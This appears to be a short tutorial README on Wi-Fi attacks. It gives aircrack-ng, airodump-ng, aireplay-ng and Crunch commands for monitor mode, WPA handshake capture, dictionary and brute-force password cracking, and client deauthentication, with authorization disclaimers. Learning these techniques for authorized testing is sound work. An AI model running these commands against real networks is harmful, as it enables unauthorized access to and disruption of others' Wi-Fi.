 # Wi-Fi Attacks Practical Guide

In this guide, we'll explore Wi-Fi attacks, including switching adapters to monitor mode, capturing handshakes, and cracking passwords using aircrack-ng. Please note that attempting these actions on networks without proper authorization is illegal and unethical. This guide is for educational purposes only.

## Prerequisites

Make sure you have the necessary tools installed, including aircrack-ng and Crunch.

```bash
# Install aircrack-ng
sudo apt-get install aircrack-ng

# Install Crunch
sudo apt-get install crunch
```
## Switching Adapters to Monitor Mode
Command:  

            `sudo airmon-ng start [interface]`
            
            Replace [interface] with your Wi-Fi interface name.

## Capturing Handshakes
Command: 
            
            `sudo airodump-ng [monitored_interface]`
            
            Replace [monitored_interface] with the interface created in monitor mode.

## Cracking Passwords using aircrack-ng (Dictionary Attack)
Command: 

            `sudo aircrack-ng -w [dictionary_file] -b [BSSID] [capture_file.cap]`
            
            Replace [dictionary_file] with the path to your dictionary file, [BSSID] with the target BSSID, and [capture_file.cap] with the handshake capture file.

## Cracking Passwords using aircrack-ng and Crunch (Brute Force Method)

Create a Wordlist with Crunch: 
            
            `crunch [min_length] [max_length] -o [output_file]`
            
            Replace [min_length] and [max_length] with the desired password length range.

Command: 
            
            `sudo aircrack-ng -w [wordlist_file] -b [BSSID] [capture_file.cap]`
            
            Replace [wordlist_file] with the path to your wordlist file.

## Executing a De-authentication Attack

Command: 

        `sudo aireplay-ng --deauth [number_of_deauths] -a [BSSID] -c [client_MAC] [monitored_interface]`
        
        Replace [number_of_deauths], [BSSID], [client_MAC], and [monitored_interface] with the appropriate values.
        
Remember to use this knowledge responsibly and only on networks for which you have explicit permission.
